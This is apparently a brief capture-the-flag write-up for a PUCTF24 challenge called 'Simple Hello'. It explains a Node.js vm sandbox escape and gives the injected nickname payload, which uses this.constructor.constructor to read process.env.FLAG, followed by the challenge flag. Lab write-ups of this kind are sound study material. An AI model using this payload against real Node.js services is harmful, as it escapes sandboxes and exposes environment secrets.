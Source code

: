 ## Simple Hello

found node vm in source code<br>
=> google `ctf node vm`<br>
=> found Node.js sandbox escape<br>
=> use prototype chain `this.constructor.constructor` to get function constructor<br>
=> send payload `"; nickname = this.constructor.constructor('return this.process.env.FLAG')(); "`

PUCTF24{n0d3js_vm_1s_n07_s3cur3_cdd9e68f1bfb49641e59a798abec1181}
